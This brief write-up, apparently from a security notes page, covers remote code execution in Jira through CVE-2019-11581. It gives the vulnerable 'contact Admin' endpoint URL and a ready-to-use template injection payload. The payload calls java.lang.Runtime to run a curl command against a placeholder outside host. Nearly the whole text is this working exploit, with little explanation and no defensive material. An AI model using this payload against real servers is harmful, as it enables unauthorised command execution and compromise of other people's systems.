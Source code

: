 RCE in Jira(CVE-2019–11581)
===========================

The "contact Admin" functinality is accessible on this URL:
```
https://jiraserver/secure/ContactAdministrators!default.jspa
```

THe payload is:
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://xxx.com/rcetest?a=a').waitFor()
```
